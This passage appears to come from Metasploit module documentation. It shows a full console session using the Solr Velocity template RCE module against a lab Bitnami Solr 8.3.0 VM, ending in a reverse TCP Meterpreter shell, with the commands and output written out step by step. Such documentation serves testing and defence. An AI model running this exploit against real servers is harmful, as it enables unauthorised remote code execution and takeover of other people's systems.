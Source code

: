 ```
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, using CmdStager, with payload `linux/x86/meterpreter/reverse_tcp`
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Using URL: http://0.0.0.0:8080/PDeRPN1t
[*] Local IP: http://192.168.137.128:8080/PDeRPN1t
[*] Client 192.168.137.129 (curl/7.52.1) requested /PDeRPN1t
[*] Sending payload to 192.168.137.129 (curl/7.52.1)
[*] Sending stage (985320 bytes) to 192.168.137.129
[*] Meterpreter session 18 opened (192.168.137.128:4444 -> 192.168.137.129:48604) at 2020-03-29 00:23:13 +0800
[*] Command Stager progress - 100.00% done (149/149 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.137.129
OS           : Debian 9.11 (Linux 4.9.0-11-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
